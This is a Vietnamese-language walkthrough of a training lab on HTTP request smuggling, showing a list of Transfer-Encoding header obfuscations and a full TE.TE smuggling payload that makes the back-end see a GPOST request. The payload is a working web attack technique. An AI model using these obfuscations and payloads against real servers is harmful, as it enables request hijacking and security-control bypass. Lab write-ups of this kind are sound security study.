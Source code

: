


### Lab: HTTP request smuggling, obfuscating the TE header
```
This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.
```
Mô tả cũng không có gì khác những bài lab trước tuy nhiên cách thức thực hiện thì lại khác nhau. Lần này chúng ta sẽ exploit theo 1 cách khác đó chính là *obfuscating the TE header*

#### TE.TE behavior: obfuscating the TE header

Có rất nhiều cách để làm xáo trộn Transfer-Encoding header. Ví dụ :
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```
Từ đó chúng ta truy cập bài lab và bắt request sau đó exploit như bài trước thì chúng ta nhận thấy rằng không trả về kết quả mà chúng ta mong muốn. Đó là lí do tại sao bài lab lại muốn chúng ta áp dụng làm rối loạn TE header.
![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_TEheader_check.png?raw=true)

Thay thế Tranfer-Encoding bằng 1 trong những ví dụ có trên  và chúng ta có payload như sau : 



```

POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: x

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_TEheader_GPOST.png?raw=true)
